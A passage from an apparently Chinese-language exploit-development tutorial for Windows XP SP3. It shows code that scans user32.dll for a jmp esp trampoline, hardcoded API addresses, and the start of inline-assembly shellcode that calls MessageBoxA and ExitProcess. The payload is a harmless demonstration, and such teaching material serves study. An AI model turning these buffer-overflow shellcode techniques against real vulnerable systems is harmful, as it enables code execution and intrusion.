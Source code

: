 ```cpp
	}

	ptr = (BYTE*)handle;

	for(position = 0; !done_flag; position++)
	{
		try
		{
			if(ptr[position] == 0xFF && ptr[position+1] == 0xE4)
			{
				//0xFFE4 is the opcode of jmp esp
				int address = (int)ptr + position;
				printf("OPCODE found at 0x%x\n",address);
			}
		}
		catch(...)
		{
			int address = (int)ptr + position;
			printf("END OF 0x%x\n", address);
			done_flag = true;
		}
	}
}
```

将上述代码在 xp sp3 操作系统上使用 VC 6.0 编译运行结果如下所示，这里选用 0x77d456f7 处的 jmp esp 作为定位 shellcode 的跳板。

```bash
OPCODE found at 0x77d29353
OPCODE found at 0x77d456f7
......
END OF 0x77e49000
```

使用 dependency walker 获取 ExitProcess（kernel32.dll） 和 MessageBoxA（user32.dll）的内存地址分别为 0x7c81cafa 和 0x77d507ea 。

构造 shellcode，调试至无问题后在 x64dbg 选中 shellcode 对应的汇编代码，使用右键菜单 -> 二进制 -> 复制（快捷键 Shift + C），并通过 010Editor -> Edit -> paste from -> paste from hex text (快捷键 Ctrl+Shift+V) 粘贴到二进制文本中，等待后续使用。

```cpp
#include <WINDOWS.H>

int main(){
	HINSTANCE libhandle;
	char * dllbuf = "user32.dll";
	libhandle = LoadLibrary(dllbuf);

	__asm{
		sub sp, 0x440
		xor ebx, ebx
		xor eax, eax	// 清零
		mov al, 0x74	// 构造出 push 0x00000074 即 t
		push eax
		push 0x61434B43	// 构造出 CKCa

		mov eax, esp
		push ebx
		push eax
		push eax
		push ebx
		mov eax, 0x77d507ea	// MessageBoxA
		call eax

		push ebx
		mov eax, 0x7c81cafa // ExitProcess
```